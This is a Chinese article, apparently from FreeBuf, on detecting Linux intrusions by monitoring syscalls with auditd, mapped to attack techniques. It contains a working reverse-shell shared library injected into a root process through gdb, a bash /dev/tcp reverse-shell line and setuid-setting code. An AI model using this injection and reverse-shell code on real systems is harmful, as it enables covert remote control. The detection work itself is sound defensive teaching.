

# 入侵检测之syscall监控

url：https://www.freebuf.com/articles/network/243153.html

《Linux入侵检测》系列文章目录：

> 1️⃣[企业安全建设之HIDS-设计篇](https://www.freebuf.com/articles/es/194510.html)
>
> 2️⃣[入侵检测技术建设及其在场景下的运用](https://www.freebuf.com/articles/web/232153.html)
>
> 3️⃣[ATT&CK矩阵linux系统实践/命令监控](https://www.freebuf.com/articles/es/231784.html)
>
> 4️⃣[Linux入侵检测之文件监控](https://www.freebuf.com/articles/system/240784.html)
>
> 5️⃣Linux入侵检测之syscall监控
>
> 6️⃣[linux入侵检测之应急响应](https://www.freebuf.com/articles/es/197337.html)

## 0x01:Syscall简介

内核提供用户空间程序与内核空间进行交互的一套标准接口，这些接口让用户态程序能受限访问硬件设备，比如申请系统资源，操作设备读写，创建新进程等。用户空间发生请求，内核空间负责执行，这些接口便是用户空间和内核空间共同识别的桥梁，这里提到两个字“受限”，是由于为了保证内核稳定性，而不能让用户空间程序随意更改系统，必须是内核对外开放的且满足权限的程序才能调用相应接口。在用户空间和内核空间之间，有一个叫做Syscall(系统调用, system call)的中间层，是连接用户态和内核态的桥梁。这样即提高了内核的安全型，也便于移植，只需实现同一套接口即可。Linux系统，用户空间通过向内核空间发出Syscall，产生软中断，从而让程序陷入内核态，执行相应的操作。对于每个系统调用都会有一个对应的系统调用号，比很多操作系统要少很多。

[linux系统调用表(system call table)](https://blog.csdn.net/wukery/article/details/79295567)

linux系统调用是通过中断实现的，软中断指令int发起中断信号。系统调用前，linux在eax寄存器中写入子功能号，中断处理程序根据eax寄存器的值来判断用户进程申请哪种系统调用。
操作系统中断处理流程：

  

其系统调用执行流程如下：


根据其功能将其主要分为3大类：
(1)进程控制类fork 
创建一个子进程
clone  按照指定条件创建子进程
execve 运行可执行文件
...

(2)文件控制操作
fcntl 文件控制
open 打开文件
read 读文件

...
(3)系统控制
ioctl I/O总控制函数
reboot重新启动
—sysctl读写系统参数


trap命令允许程序指定将在接收到中断信号后执行的命令。常见的情况是脚本允许正常终止和处理常见的键盘中断（例如ctrl + c和ctrl + d），实际上系统发送了SIGINT信号给脚本进程，SIGINT信号的默认处理方式就是退出程序。如果要在Ctrl+C不退出程序，那么就得使用trap命令来指定一下SIGINT的处理方式了，trap命令不仅仅处理Linux信号，还能对脚本退出（EXIT）、调试（DEBUG）、错误（ERR）、返回（RETURN）等情况指定处理方式。。当遇到特定中断以获取执行或作为持久性机制时，可以使用它来注册要执行的代码。陷阱命令具有以下格式的陷阱“命令列表”信号，其中在收到“信号”时将执行“命令列表”。

## 0x02:主机syscall信息采集

以获取进程创建为例，目前来看，常见的获取进程创建的信息的方式有以下四种：
\- So preload 
\- Netlink
\- Connector Audit 
\- Syscall hook
详情请参考：[Linux 入侵检测中的进程创建监控](https://www.freebuf.com/articles/column/208928.html)

本人采用了最经典的audit，主要是为了获取数据

audit主要分三个模块：
\- auditd 管理审计规则、自定义auditd规则
\- system
1.通过用户态的管理进程配置规则，并通过 Netlink 套接字通知给内核 
2.内核中的 kauditd 通过 Netlink 获取到规则并加载 
3.应用程序在调用系统调用和系统调用返回时都会经过 auditd 
4.auditd 会将这些事件记录下来并通过


\- file_integrity
实时监控指定文件系统变化、报告文件元数据与哈希、为文件建立、移动、删除、更新和属性修改生成事件 可以实现审计监控的场景 
1.监控文件访问（识别可疑篡改、文件权限更新） 
2.监控系统调用（二进制文件或共享库调用） 3.记录用户命令执行（危险命令执行、审计） 
4.记录安全事件 
5.执行审计搜索 
6.统计概要报表 
7.监控网络访问（恶意外联）

如果只是对数据进行采集，首先数据量多大，无用数据过多，仍然从安全的角度考虑，针对性的采集

## 0x03:权限维持之syscall监控

可加载内核模块（或LKM）是可以按需加载和卸载到内核中的代码段。它们扩展了内核的功能，而无需重新启动系统， 当恶意使用时，可加载内核模块（LKM）可以是一种以最高操作系统特权（Ring 0）运行的内核模式Rootkit。 攻击者可以使用可加载的内核模块秘密地保留在系统上并逃避防御。 基于LKM的rootkit的常见功能包括：隐藏自身，有选择地隐藏文件，进程和网络活动以及日志篡改，提供经过身份验证的后门并允许对非特权用户的root访问。


```
#include <linux/kernel.h>  
#include<linux/module.h>  
#include<linux/init.h>  
MODULE_LICENSE("GPL");  
static int hello_init(void)  
{  
printk(KERN_WARNING "HELLOWORLD");  
return 0;  
}  

static void hello_exit(void)  
{  
printk("BYE");  
}  
module_init(hello_init);  
module_exit(hello_exit); 
```


编译完成之后能够看到模块文件：


lsmod查看模块是否加载：


对于内核模块的函数：
 
 init_module（）  
将ELF映像加载到内核空间，执行任何必要的符号重定位，将模块参数初始化为值由调用者提供，然后运行模块的init函数。  
int init_module(void *module_knowledge/img, unsigned long len,const char *param_values);  
Copy to clipboardErrorCopied

finit_module  
finit_module（）系统调用的是init_module（），但读取待从文件描述符加载模块的fd。当可以根据内核模块在文件系统中的位置确定其真实性时  
int finit_module(int fd, const char \*param_values,int flags);  
Copy to clipboardErrorCopied

delete_module-卸载内核模块
delete_module（）系统调用试图消除查明的未使用的可加载模块的条目名称。如果模块具有退出功能，则在卸载模块之前执行该功能。的标志参数用于修改系统调用的行为，如下面所述。此系统调用需要特权。
int delete_module(const char *name, int flags);
 对于企业的防护，对应用程序白名单和软件限制工具（例如SELinux）限制内核模块的加载或者限制对root帐户的访问，并通过适当的特权分离和限制特权升级机会来防止用户加载内核模块和扩展。
在检测层，包括在应急中，用于检测Linux rootkit的常见工具包括：rkhunter，chrootkit，针对该攻击，检测finit_module、init_module 、delete_module的调用

## 0x04:持久化之syscall监控

trap命令允许程序指定将在接收到中断信号后执行的命令。常见的情况是脚本允许正常终止和处理常见的键盘中断（例如ctrl + c和ctrl + d），实际上系统发送了SIGINT信号给脚本进程，SIGINT信号的默认处理方式就是退出程序。如果要在Ctrl+C不退出程序，那么就得使用trap命令来指定一下SIGINT的处理方式了，trap命令不仅仅处理Linux信号，还能对脚本退出（EXIT）、调试（DEBUG）、错误（ERR）、返回（RETURN）等情况指定处理方式。。当遇到特定中断以获取执行或作为持久性机制时，可以使用它来注册要执行的代码。陷阱命令具有以下格式的陷阱“命令列表”信号，其中在收到“信号”时将执行“命令列表”。

信号的主要用途：
1.使一个进程意识到一个特殊事件发生了(不同的事件用不同的signal标识)
2.并使目标进程进行相应处理(eg: 执行的信号处理函数,signal handler).相应的处理也可以是忽略它.


与信号有关的数据结构


```
#!/bin/sh  
# 杀掉LAST_PID功能  
# 脚本退出时杀掉THIS_PID功能  
LAST_PID=$(ps -ef|grep 'java.*Zhenjiang'|grep -v grep|awk '{print $2}')   
echo "LAST_PID=$LAST_PID"    
if [ -n "$LAST_PID" ] &&  [ "$LAST_PID" -gt 0 ]; then  
    echo "LAST PROCESS NOT EXIT, NOW KILL IT!"  
    kill $LAST_PID  
    sleep 1  
fi    
if ! cd ../opt/zhenjiang; then  
    echo "CHANGE DIRECTORY FAILED"  
    exit 1  
fi    
java -classpath .:./cpinterfaceapi.jar:./log4j-1.2.14.jar:./hyjc.jar:./smj.client.jar Zhenjiang &    
THIS_PID=$!    
echo "THIS_PID=$THIS_PID"    
trap "kill $THIS_PID" TERM    
wait  
```

trap命令必须为外壳程序（shell解释器）或程序注册，因此会出现在文件中。监视文件中的可疑或过于广泛的trap命令可以缩小调查过程中的可疑行为。监视通过trap中断执行的可疑进程。


监控的参考syscall
kill,tkill,tgkill,rt_sigaction,rt_sigpending,rt_sigprocmask,rt_sigqueueinfo,rt_sigsuspend,rt_sigtimedwait,signalfd,signalfd4,rt_sigreturn,sigaltstack

## 0x05:权限提升之syscall

进程注入是一种在单独的活动进程的地址空间中执行任意代码的方法。在另一个进程的上下文中运行代码可能会允许访问该进程的内存，系统/网络资源以及可能的特权提升。由于执行被合法程序掩盖了，因此通过进程注入执行还可以避开安全产品的检测。

\1. LD_PRELOAD，LD_LIBRARY_PATH（Linux）环境变量或dlfcn应用程序编程接口（API）可用于在过程中动态加载库（共享库），该过程可用于拦截来自运行过程。

\2. Ptrace系统调用可用于附加到正在运行的进程并在运行时对其进行修改

\3. VDSO劫持通过操纵从linux-vdso.so共享库映射的代码存根，对ELF二进制文件执行运行时注入。 TES 恶意软件通常利用进程注入来访问系统资源，从而可以对持久性和其他环境进行修改。使用命名管道或其他进程间通信（IPC）机制作为通信通道，更复杂的样本可以执行多个过程注入以分割模块并进一步逃避检测。

要注入的代码callback.c：

```
#include <pthread.h>
#include <stdlib.h>
#include <unistd.h>

#define SLEEP  120                    /* Time to sleep between callbacks */
#define CBADDR "127.0.0.1"           /* Callback address */
#define CBPORT "4444"                 /* Callback port */

/* Reverse shell command */
#define CMD "echo 'exec >&/dev/tcp/"\
            CBADDR "/" CBPORT "; exec 0>&1' | /bin/bash" //进行反向shell

void *callback(void *a);

__attribute__((constructor)) /* Run this function on library load */
// 在动态库加载之后运行该函数
void start_callbacks(){
        pthread_t tid;
        pthread_attr_t attr;

        /* Start thread detached */
        if (-1 == pthread_attr_init(&attr)) {
                return;
        }
        if (-1 == pthread_attr_setdetachstate(&attr,
                                PTHREAD_CREATE_DETACHED)) {
                return;
        }

        /* Spawn a thread to do the real work */
        pthread_create(&tid, &attr, callback, NULL); //创建线程
}


void *
callback(void *a)
{
        for (;;) {
                /* Try to spawn a reverse shell */
                system(CMD);
                /* Wait until next shell */
                sleep(SLEEP);
        }
        return NULL;
}
```

编译成动态链接库： cc -O2 -fPIC -o libcallback.so ./callback.c -lpthread -shared

切换到root用户，列出root用户进程 ps -fxo pid,user,args | egrep -v ' \[\S+\]$'选择想要注入的进程pid，使用gdb进行注入，这里选择pids值较低的，因为值越低代表运行的时间越早，选择长期运行的进程，因为这些进程不容易被kill。
echo 'print __libc_dlopen_mode("/root/libcallback.so", 2)' | gdb -p pid

用gdb打开进程，并且用__libc_dlopen_mode打开要注入的动态链接库。使用GDB的print命令，以方便取函数的返回值。将它回显到GDB的标准输入中，它会引起GDB退出，就省得使用quit命令了。

开启另外的终端，监听本地的4444端口


反向跟踪，可以看到调用的syscall为ptrace


## 0x06:持久化之文件属性syscall监控


在权限提升和持久化中，设置setuid或setgid位，使应用程序将分别以拥有用户或组的特权运行，以确保他们将来能够在提升的环境中执行，也是常见的操作，可以使用chmod实现。#include <stdio.h>


```
#include <sys/types.h>
#include <sys/stat.h>
int main(int argc, char *argv[])
{
if ( argc != 2 )
 {
printf("Usage: %s filename\n", argv[0]);
return (1);
}
if (chmod(argv[1], S_ISUID | S_IRUSR | S_IRGRP | S_IROTH | S_IXOTH) < 0)
 {
perror("Cannot modify the Permission of the file");
return (1);
}
   return (0);
}
```


对应的监控函数为：
chmod, fchmod, fchmodat
chmod 
fchmodat 等

## 0x07:网络管理反弹shell之syscall监控


反弹shell，攻击者在控制端执行tcp/udp监听，并通过socket传递给攻击端的控制端。其主要原理为将标准输入以及标准输出是否指向一个socket或pipe
以最简单的bash反弹为例：

Linux bash是从左向右读取这条命令的，首先系统会创建bash -i子进程，并分配文件描述符：


当解析到 >& /dev/tcp/10.0.0.1/4444 标准输出与标准错误重定向符时，文件描述符的指向变更为：


当解析到0>&1，标准输入复制到标准输出时，文件描述符的指向变更为：


文件输入描述符以及文件输出描述符皆需要重定向到socket通道

文件输入描述符以及文件输出描述符皆需要重定向到pipe

从攻击的角度可以总结出，对进程，监控其标准输入以及标准输出是否指向一个socket或pipe，更 加需要关注的为具有可执行环境的文件，如bash、perl、python等
对应的syscall为socketcall

## 0x08:命令执行之syscall监控

snoopy轻量级的lib库，用来记录系统中所有执行过的命令以及参数，实际使用场景中结合snoopy和rsyslog收集所有主机的历史执行命令，snoopy 即是通过 preload 的方式在程序进行 execv() 和 execve() 系统调用的时候记录下所有需要的信息，audit同snoopy，通过监控execve系统调用，同样实现用户的操纵记录，大部分检测通过检测非ROOT用户执行的命令以及进行威胁建模。

对应的syscall为execve，对应的命令监控内容可以参考系列中的另外一篇：[ATT&CK矩阵linux系统实践/命令监控](https://www.freebuf.com/articles/articles/es/231784.html)

## 0x09:隐藏痕迹之系统设置之syscall监控

touch命令用于修改文件或者目录的时间属性，包括存取时间和更改时间。

反向跟踪隐藏痕迹中的修改的时间戳

其对应的参考syscall为settimeofday、clock_settime 、adjtimex等

## 0x10:syscall监控小结


下表中根据分类总结列举了部分常用的syscall，无疑监控syscall带来的数据量是非常庞大的，以及对服务器的性能消耗也需要考虑，本文从攻击者角度考虑，采集攻击打点信息，只采集关注的数据，因文章篇幅，采集的syscall的攻击打点面未全面


时刻保持学习，ctrl+c 和ctrl +v 的内容也不一样

